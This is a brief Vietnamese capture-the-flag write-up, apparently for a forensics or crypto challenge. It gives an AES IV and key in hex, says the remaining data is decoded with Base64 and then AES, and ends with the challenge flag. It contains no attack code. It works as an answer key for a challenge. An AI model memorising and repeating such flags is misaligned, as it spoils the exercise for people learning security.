

IV
>6a 2c 7c 47 1a ea 16 0f 56 8b 6b a2 13 a0 7c 05

KEY
>77 fd ca c2 33 3b 9b 67 06 02 d2 c8 eb b2 a5 84 3b 97 23 f5 d1 29 24 e4 3a 59 89 5c 4e 36 47 e3

Phần còn lại sẽ đem đi decode với thứ tự lần lượt là BASE64 -> AES



Thấy 1 đoạn hex, decode tiếp là nhận được flag



```
FLAG: CHH{D0n't_w0rRy_n0_st@r_wh3rE}
```


